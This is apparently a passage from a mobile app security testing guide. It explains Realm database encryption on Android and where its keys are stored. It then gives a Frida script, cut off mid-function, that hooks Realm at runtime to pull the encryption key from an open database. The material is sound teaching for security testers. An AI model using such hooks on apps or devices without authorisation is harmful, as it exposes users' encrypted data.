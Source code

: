 ### Realm Databases

The [Realm Database for Java](https://mongodb.com/docs/realm/sdk/java/ "Realm Database") is becoming more and more popular among developers. The database and its contents can be encrypted with a key stored in the configuration file.

```java
//the getKey() method either gets the key from the server or from a KeyStore, or is derived from a password.
RealmConfiguration config = new RealmConfiguration.Builder()
  .encryptionKey(getKey())
  .build();

Realm realm = Realm.getInstance(config);

```

Access to the data depends on the encryption: unencrypted databases are easily accessible, while encrypted ones require investigation into how the key is managed - whether it's hardcoded or stored unencrypted in an insecure location such as shared preferences, or securely in the platform's KeyStore (which is best practice).

However, if an attacker has sufficient access to the device (e.g. root access) or can repackage the app, they can still retrieve encryption keys at runtime using tools like Frida. The following Frida script demonstrates how to intercept the Realm encryption key and access the contents of the encrypted database.

```javascript

'use strict';

function modulus(x, n){
    return ((x % n) + n) % n;
}

function bytesToHex(bytes) {
    for (var hex = [], i = 0; i < bytes.length; i++) { hex.push(((bytes[i] >>> 4) & 0xF).toString(16).toUpperCase());
        hex.push((bytes[i] & 0xF).toString(16).toUpperCase());
    }
    return hex.join("");
}

function b2s(array) {
    var result = "";
    for (var i = 0; i < array.length; i++) {
        result += String.fromCharCode(modulus(array[i], 256));
    }
    return result;
}

// Main Modulus and function.

if(Java.available){
    console.log("Java is available");
    console.log("[+] Android Device.. Hooking Realm Configuration.");

    Java.perform(function(){
        var RealmConfiguration = Java.use('io.realm.RealmConfiguration');
        if(RealmConfiguration){
            console.log("[++] Realm Configuration is available");
            Java.choose("io.realm.Realm", {
                onMatch: function(instance)
                {
                    console.log("[==] Opened Realm Database...Obtaining the key...")
                    console.log(instance);
```